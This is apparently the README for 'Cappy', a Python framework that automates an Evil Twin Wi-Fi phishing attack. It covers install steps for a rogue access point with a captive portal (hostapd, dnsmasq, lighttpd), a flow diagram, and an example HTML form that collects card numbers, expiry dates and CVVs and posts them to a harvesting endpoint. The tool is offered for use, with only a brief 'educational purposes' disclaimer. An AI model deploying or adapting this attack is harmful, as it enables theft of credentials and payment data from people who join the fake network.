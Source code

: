 # Readme is under construction 🚧

<div align="center">
  <img src="https://flockahh.b-cdn.net/B5860EAD-2DC4-4373-A00C-B0C219CB6D9A.png" alt="Cappy Logo" />
  
##   $${\color{orange}Cappy}$$ 
  
</div>
  
<div>
  
**Evil Twin** is a phishing technique categorized under network attacks, it involves the creation of a **rogue wireless access point (AP)** that masquerades as a legitimate network, such as a public Wi-Fi hotspot or a familiar network with a captive portal, to deceive users into connecting and unknowingly divulging their sensitive login credentials and other personal information transmitted over the compromised connection. 
</div>
  
> [!TIP]
> <strong>Cappy, a framework that automates the attack, must be used only in clear, educational purposes. Any action outside of that context is highly unrecommended, and may result in legal consequences</strong>

# Introduction

**Python** tool, that automates the process of setting up captive portal on Linux machines, with some tweaks.

> [!NOTE]
> This software was tested on: <strong>Kali Linux, KaliPi, ParrotOS</strong>
> In case of any trouble, create an issue and describe the error

**Cappy** works like this:

```
  Check Dependencies ---> Choose network interface
          |                         |                                                                         
          | missing?                └ Change mac address                      Run captive portal <--- Select Template
          |                                   |                                       |                       |
  Install Dependencies                        └ Menu Screen                           └ Capture credentials   |
                                                     | start?                                                 |
                                                     └ Prepare adapter ---> Configure IP Adresses ---> Restart services

```

# Setup

**In most cases, Cappy can handle the setup by itself, so give it a try**

1-A. Installing Cappy with pip

  <sub>This will make 'Cappy' available from any path in the terminal</sub>
  
  ```
    $ git clone https://github.com/FLOCK4H/Cappy
    $ cd Cappy
    $ sudo pip install .
  ```

1-B. Running Cappy with Python
   
   <sub>We will need to install dependencies manually</sub>

```
  $ sudo apt-get update
  $ sudo apt-get install lighttpd hostapd dnsmasq
  $ cd Cappy
  $ sudo python Cappy
```

# Usage
![image](https://github.com/FLOCK4H/Cappy/assets/161654571/ce6ee823-5408-4b14-8f3c-ce33bb53737b)

**Templates** are being saved to the <i> **/usr/local/share/Cappy/templates** </i>folder.

Creating a new template will result in making new directory in that path with a name of the template.

By default, there are 2 endpoints and 5 fields, that we can use in `index.html` of the template:
- /action.html -> username, password, credit, expire, cvv
- /data -> any

Example:
```
<form method='POST' action="http://10.0.0.15:80/action.html">
    <input type='text' name='credit' placeholder="CARD NUMBER"/>
    <input type='password' name='expire' placeholder="EXPIRY DATE"/>
    <input type='password' name='cvv' placeholder="CVV"/>
    <input value='Submit' type='submit'/>
</form>
```

**Device wanting to join the network will be redirected to the `index.html` of the template, where after entering credentials and submitting, will be redirected to the `action.html`, that harvests those credentials and logs to the console.**

# Troubleshoot

There are numerous reasons for why the Cappy may not work, as it all depends on the network adapter, operating system, and machine capabilities itself. Currently, it's less likely that **Cappy will ever work on Android devices**. Here are the general steps on how to debug your issue:

1. Ensure dependencies are installed manually

```
  $ sudo apt-get install hostapd dnsmasq lighttpd
```

2. Check paths for conflicts:

```
  $ ls /etc/hostapd
  $ find /etc/dnsmasq.conf
  $ find /usr/local/share/Cappy
```

